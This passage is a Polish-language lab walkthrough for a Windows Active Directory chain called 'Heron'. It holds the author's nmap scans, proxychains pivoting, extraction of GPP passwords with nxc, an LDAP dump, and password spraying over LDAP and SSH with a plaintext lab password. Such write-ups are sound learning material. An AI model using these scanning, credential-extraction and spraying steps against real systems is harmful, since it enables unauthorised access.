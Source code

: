 # Heron
Windows, Medium, created by **xct**
```
nmap -Pn -v -p- --version-all -oA nmapFULL --max-rate 1000 10.10.215.53 10.10.215.54
sudo nmap -sU -Pn -A -F -v -oA nmaUDP --max-rate 1000 10.10.215.53 10.10.215.54
```

I was surprised that only ssh open, but then I remembered that these chains have scripts xd

![{62F15BCC-926F-4FA1-881E-16C953BF1EB0}](https://github.com/user-attachments/assets/693e4ad6-47d2-4f73-a01d-31f962d9a174)

![{512B1DA5-B3C1-430F-B8B7-3A0B11FF2D9E}](https://github.com/user-attachments/assets/7b2612ab-58a9-4616-abef-29ce5fdcaf73)

`wget https://github.com/peass-ng/PEASS-ng/releases/download/20241205-c8c0c3e5/linpeas_fat.sh`

przejęcie `_local` to root od ręki

![{223C33F0-43DF-4868-9020-5B43A72970BF}](https://github.com/user-attachments/assets/dea022c4-45a7-44f7-97f4-44116d03e078)

tak losowe screeny wrzucam, które mogą się przydać.

![{73022E23-F40B-4AE6-8A04-F3757A46ACAF}](https://github.com/user-attachments/assets/028d4c18-cb47-4b41-a19e-b485bf97212f)

![{9A69E1AD-AC83-476A-8F35-BB928B9DCAC1}](https://github.com/user-attachments/assets/fc78c30d-f2fb-4799-b791-058039c61c2d)

![{D6F671A8-FDBC-47F9-A912-9E556B21DD09}](https://github.com/user-attachments/assets/89016ebb-ea0a-427d-8304-923a82460a58)

wrzucam socks proxy z ssh i jakiś nmapik

```
proxychains4 -q nmap -Pn -v 10.10.215.0/24 -oA nmapTOP1000
```

dziwna sprawa. PRzez proxychains nie mogę po ludzku skanować `10.10.215.53`.

![{E55C7310-8CC9-4FF0-8B7E-AEAA387539A4}](https://github.com/user-attachments/assets/77ca6258-f5e3-470a-96ab-f43cd72e3c70)

dziiiiiwne

![{E13FE1C2-EC53-4C4D-95C1-F203CE71E658}](https://github.com/user-attachments/assets/f1151f40-2796-4081-ac04-628f58f3296b)

![{3154A60D-742E-4E0C-B5D1-A1EA548A5BA6}](https://github.com/user-attachments/assets/66b14272-0f84-4d4d-9383-13b58347b8a2)

o trafiłem w port 80. To lecimy z nim

![{DC317D39-231D-4AB3-82C4-010D1F7750A4}](https://github.com/user-attachments/assets/b30b4100-d90c-4e12-9823-5fd5c9f0fb24)

![{C0129661-25EA-4717-A8DB-7714C21DAB0F}](https://github.com/user-attachments/assets/88dfa5df-4e51-42c3-9feb-1106432c12d4)

![{B6F9C402-FCBA-45E4-AD16-29AC205E25AB}](https://github.com/user-attachments/assets/d87c4417-69e6-411c-899c-f9c67e938117)

- jeszcze zanim to to od dzisiaj zawsze wpisuję `-M gpp_password` jak mam usera. Ciekawe rzeczy da się wyjąć (kolega polecił)

![{55BDA128-A025-4239-89FD-A7B0D2FC417C}](https://github.com/user-attachments/assets/b6478868-514c-4cfa-85f7-a5c94fda8eff)

- haslo nie pasuje do żadnego usera. Trzeba chyba sprawdzić na wszystkich z ldapa.

```
proxychains4 ldapdomaindump -u 'heron.vl\samuel.davies' -p <pass> 10.10.215.53
```

![{B16D5D6B-DBE8-4298-911E-A2AFBB26346E}](https://github.com/user-attachments/assets/d7eaea3f-659d-4450-922c-e249aa06d8ca)


- ale haslo nie pasuje do żadnego :/

DOBRA SIADŁO
```
proxychains4 -q nxc ldap 10.10.215.53 -u full_users_list -p '<pass from gpp>' --continue-on-success
proxychains4 -q nxc ssh 10.10.215.54 -u full_users_list_and_domain -p 'H3r0n2024#!' --continue-on-success 
```

siadło do usera `svc-web-accounting-d` na 10.10.215.53 po smb and user `svc-web-accounting-d` with ssh access on 10.10.215.54.
- btw jeżeli dalibyśmy print $1 w awk wyżej to zamiast  `svc-web-accounting-d` mielibyśmy usera  `svc-web-accounting-dev` i wtedy by nie siadło.




